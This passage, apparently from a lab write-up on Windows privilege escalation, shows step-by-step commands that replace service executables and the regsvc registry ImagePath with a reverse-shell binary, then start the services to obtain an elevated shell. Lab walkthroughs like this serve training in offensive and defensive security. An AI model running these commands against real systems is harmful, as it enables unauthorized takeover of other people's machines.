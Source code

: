 so lets change it to our reverse.exe

after runing the program u should get shell

```bash
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
net start unquotedsvc
```

![revshell](image-5.png)

## Weak Registry Permissions

from winpeas we can see we can modify a registry

![reg](image-6.png)

we can verify the permission using powershell or accesschk

```bash
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
# we are part of Authority\Interactive Group
.\accesschk.exe /accepteula -ucqv user regsvc
# check the current value in regsvc
reg query HKLM\System\CurrentControlSet\Services\regsvc
```

we can change the ImagePath Value to our reverse.Exe

```bash
# change the Value
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
# check
reg query HKLM\System\CurrentControlSet\Services\regsvc
# start the service
net start regsvc
```

## Insecure Service Executables

as regular from winpeas
